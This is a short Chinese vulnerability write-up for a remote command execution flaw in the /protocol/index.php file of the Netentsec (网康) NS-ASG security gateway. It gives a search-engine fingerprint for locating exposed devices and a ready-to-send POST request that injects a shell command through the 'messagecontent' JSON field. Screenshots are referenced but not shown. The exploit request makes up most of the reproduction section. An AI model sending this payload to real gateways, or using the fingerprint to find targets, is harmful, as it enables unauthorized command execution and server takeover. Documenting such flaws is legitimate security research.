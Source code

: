 # 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

<a-checkbox checked>网康 NS-ASG安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked> title=="网康 NS-ASG 应用安全网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1660545594828-6a216122-73d2-4dd4-91d3-8f91dfd9d903-20230311202627447.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![img](../../../.vuepress/public/img/1660545902675-0586f8f2-d3c8-4dbe-816e-821013ba8e83-20230311202624155.png)

![img](../../../.vuepress/public/img/1660546891442-cd318722-bd7d-474f-8e6b-17dfb7ded9de-20230311202624159.png)

通过构造请求包进行命令拼接漏洞执行命令

```php
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![img](../../../.vuepress/public/img/1660547107247-ca9ae305-a265-4ad1-978b-a344384d8c9c-20230311202623936.png)

![img](../../../.vuepress/public/img/1660547143958-774e5dad-e5f1-4277-bb12-36653c843adf-20230311202623607.png)